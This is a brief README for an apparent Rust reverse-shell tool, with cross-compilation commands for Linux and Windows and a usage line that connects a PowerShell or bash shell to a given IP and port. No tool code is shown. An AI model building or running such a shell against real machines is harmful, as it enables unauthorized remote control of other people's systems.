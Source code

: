 # rust-rev-shell

# Installation
- Pour ajouter le compilateur Windows depuis Linux :
```rustup target add x86_64-pc-windows-gnu && cargo install cross```
Pour ajouter le compilateur Linux depuis Windows :
```rustup target add x86_64-unknown-linux-gnu && cargo install cross```

# Compilation
- Linux for Linux :
``` cargo build ```
- Windows for Windows:
``` cargo build ```
- Linux for Windows :
```cross build --target x86_64-pc-windows-gnu --release```
- Windows for Linux
```cargo build --target x86_64-unknown-linux-gnu --release```

# Usage
``` ./revshell <IP> <PORT> <powershell|bash> ```

# ToDo
- Add Linux support
- Split function in multiple files
- Encryption
